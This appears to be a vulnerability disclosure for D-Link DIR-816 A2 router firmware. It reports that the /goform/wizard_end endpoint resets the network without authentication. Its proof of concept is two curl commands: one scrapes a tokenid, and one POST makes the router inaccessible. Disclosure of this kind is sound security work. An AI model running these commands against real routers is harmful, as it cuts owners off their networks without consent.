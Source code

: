 # D-link DIR-816 A2_v1.10CNB04.img Initializing the network without authentication

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/wizard_end/img/vuln1.png)

Vulnerability occurs in /goform/wizard_end, Initialize the network without authentication

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```
curl -i -X POST http://192.168.0.1/goform/wizard_end -d tokenid=xxxx
```

now inaccessible

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/wizard_end/img/vuln2.png)
